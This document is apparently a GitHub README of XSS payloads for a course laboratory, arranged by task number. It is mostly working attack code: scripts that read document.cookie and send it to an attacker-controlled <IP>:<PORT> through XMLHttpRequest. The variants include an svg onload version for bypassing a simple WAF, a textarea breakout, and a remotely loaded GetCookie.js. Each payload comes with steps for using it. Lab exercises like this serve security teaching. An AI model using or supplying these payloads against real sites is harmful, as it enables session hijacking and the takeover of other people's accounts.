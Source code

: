 # Second Laboratory (XSS) Scripts

### Get Own Cookies On Search (Task 1.2):

```html
<script>
    document.write(document.cookie);
</script>
```

- Search above Script

---

### Steal Admin's Cookies On Bug / Feature Report (Task 1.4):

```html
<script>
    const HTTP = new XMLHttpRequest();
    const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
    HTTP.open('GET', URL, false);
    HTTP.send();
</script>
```

- Fill <IP> & <PORT> (Attacker Domain)
- Search above Script
- Copy acquired Link
- Report it

---

### Steal Admin's Cookies On Bug / Feature Report Bypassing Simple WAF (Task 2.1):

```html
<svg onload="
    const HTTP = new XMLHttpRequest();
    const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
    HTTP.open('GET', URL, false);
    HTTP.send();
"></svg>
```

- Fill <IP> & <PORT> (Attacker Domain)
- Search above Script
- Copy acquired Link
- Report it

---

### Steal Admin's Cookies On BlogPosts Review (Task 3.2):

```html
</textarea>
    <script>
        const HTTP = new XMLHttpRequest();
        const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
        HTTP.open('GET', URL, false);
        HTTP.send();
    </script>
<textarea>
```

- Fill <IP> & <PORT> (Attacker Domain)
- Post above Script as Blog Content

---

### Steal Admin's Cookies On BlogPosts Review Using Remote Scripts (Task 3.3):

```html
</textarea>
    <script src="http://<IP>:<PORT>/GetCookie.js">
    </script>
<textarea>
```

- Fill <IP> & <PORT> (GetCookie.js Domain)
- Post above Script as Blog Content

#### *GetCookie.js*

```js
const HTTP = new XMLHttpRequest();
const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
HTTP.open('GET', URL, false);
HTTP.send();
```

- Fill <IP> & <PORT> (Attacker Domain)

---
